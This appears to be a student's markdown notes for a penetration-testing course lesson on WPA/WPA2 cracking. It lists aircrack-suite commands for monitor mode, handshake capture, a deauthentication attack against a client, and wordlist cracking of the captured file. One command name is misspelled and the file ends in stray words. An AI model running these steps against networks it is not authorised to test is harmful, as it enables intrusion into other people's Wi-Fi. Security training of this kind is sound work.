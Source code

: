 # 03_WPA and WPA2 Cracking

[WPA and WPA2 Cracking 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=e440ab83-8567-4e46-8a42-bd402a0f70bb&finalAssessment=false)

**Command**

- `airmon-ng`

| PID  | Name           |
| ---- | -------------- |
| 1056 | NetworkManager |
| 1112 | wpa_supplicant |

- `kill 1056`
- `kill 1112`
  - `arimon-ng`
  - `airodump-ng`
    - `airodump-ng -w attack1 -c 5 --bssid <> wlan0mon`
      - `aireplay-ng -0 10 -a <source bssid> -c <station addr> wlan0mon`
  - `aircrack-ng -w wordlist.txt -b <bssid> <*.*.cap>`

Her Sal Yon
